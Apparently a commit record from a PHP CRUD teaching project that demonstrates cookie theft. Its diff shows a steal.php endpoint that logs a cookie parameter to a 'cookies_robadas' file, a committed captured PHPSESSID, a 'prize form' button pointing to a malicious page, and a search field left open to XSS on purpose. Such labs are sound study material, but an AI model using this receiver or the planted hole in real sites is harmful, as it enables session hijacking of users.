

Before and after one commit to iesmartinezm/CRUDPHP, a PHP site: page /CRUDPHP/FrontEnd/Crud/ListadoDeProductos.php in a window 390 px wide; the page is wider, and only the part inside the window is pictured. Shown: the top 522 px of that part. Run offline with PHP 8.4, Linux system fonts and the light colour scheme; the visitor is signed in with stand-in values (Sample User, id 1); data that the repository does not hold is empty.

Commit message:
Robo de Cookies con formulario POST

```diff
--- a/BackEnd/ListarProductos.php
+++ b/BackEnd/ListarProductos.php
@@ -21,8 +21,6 @@ if ($conn->connect_error) {
 $search = '';
 if (isset($_GET['search'])) {
     $search = $_GET['search'];
-} elseif (isset($_POST['search'])) {
-    $search = $_POST['search'];
 }
 
 // Mostrar el término de búsqueda (vulnerable a XSS)
--- a/FrontEnd/Crud/CSSProductos.css
+++ b/FrontEnd/Crud/CSSProductos.css
@@ -94,34 +94,35 @@ table tbody tr td a:hover {
     background-color: #5a6268;
 }
 
-/* Ajustes para pantallas pequeñas */
-@media (max-width: 768px) {
-    table {
-        width: 100%;
-    }
+/* Botón de acceso al formulario malicioso */
+.btn-danger {
+    display: inline-block;
+    padding: 10px 20px;
+    font-size: 14px;
+    font-weight: bold;
+    color: white;
+    text-align: center;
+    text-decoration: none;
+    background-color: #dc3545; /* Rojo */
+    border-radius: 5px;
+    border: none;
+    cursor: pointer;
+    transition: background-color 0.3s ease;
+}
 
-    table thead {
-        display: none;
-    }
+.btn-danger:hover {
+    background-color: #c82333; /* Rojo más oscuro */
+}
 
-    table tbody tr {
-        display: block;
-        margin-bottom: 15px;
-    }
+/* Estilos para alinear los botones en el div .actions */
+.actions {
+    display: flex;
+    justify-content: center;  /* Centra horizontalmente los botones */
+    align-items: center;      /* Alinea verticalmente */
+    gap: 15px;                /* Espacio entre los botones */
+    margin-top: 20px;         /* Espacio superior */
+}
 
-    table tbody tr td {
-        display: block;
-        text-align: right;
-        padding: 10px;
-        border-bottom: 1px solid #ddd;
-        position: relative;
-    }
-
-    table tbody tr td::before {
-        content: attr(data-label);
-        position: absolute;
-        left: 0;
-        text-align: left;
-        font-weight: bold;
-    }
+.actions a, .actions button {
+    display: inline-block;
 }
--- a/FrontEnd/Crud/ListadoDeProductos.php
+++ b/FrontEnd/Crud/ListadoDeProductos.php
@@ -29,25 +29,19 @@
         <button type="submit">Buscar (GET)</button>
     </form>
 
-    <!-- Formulario de búsqueda con POST -->
-    <h2>Buscar productos (POST)</h2>
-    <form action="/FrontEnd/Crud/ListadoDeProductos.php" method="POST">
-        <label for="search_post">Buscar producto:</label>
-        <input type="text" id="search_post" name="search" placeholder="Nombre del producto">
-        <button type="submit">Buscar (POST)</button>
-    </form>
-
-
     <div class="table-container">
         <!-- Aquí se incluirá la tabla desde ListarProductos.php -->
         <?php include("../../BackEnd/ListarProductos.php"); ?>
     </div>
 
+    <div class="actions">
+        <br><br>
+        <a href="/BackEnd/logout.php" class="btn btn-secondary">Cerrar sesión</a>
+        <button class="btn btn-danger" onclick="window.location.href='http://localhost/FrontEnd/Crud/MaliciosoPost/malicioso.php'">
+            Formulario Premio
+        </button>
+    </div>
 
-
-    <div class="actions">
-        <a href="/BackEnd/logout.php">Cerrar sesión</a>
-    </div>
 </body>
 </html>
 <?php ob_end_flush(); ?> <!-- Finaliza y envía el contenido al navegador -->
--- /dev/null
+++ b/FrontEnd/Crud/MaliciosoPost/cookies_robadas_post.txt
@@ -0,0 +1 @@
+PHPSESSID=d31d5b49cdbffc801830d8ecb451cd49
--- a/FrontEnd/Crud/steal.php
+++ b/FrontEnd/Crud/steal.php
@@ -5,7 +5,7 @@ ini_set('display_errors', 1);
 // Obtener la cookie
 if (isset($_GET['cookie'])) {
     $cookie = $_GET['cookie'];
-    $archivo = __DIR__ . '/cookies_robadas.txt';
+    $archivo = __DIR__ . '/cookies_robadas_get.txt';
 
     // Guardar la cookie en el archivo
     file_put_contents($archivo, $cookie . PHP_EOL, FILE_APPEND);
```
Also changed, not shown: FrontEnd/Crud/MaliciosoPost/hackeado.php (added, +23 -0 lines), FrontEnd/Crud/MaliciosoPost/malicioso.php (added, +34 -0 lines), FrontEnd/Crud/MaliciosoPost/steal.php (added, +18 -0 lines), README.md.
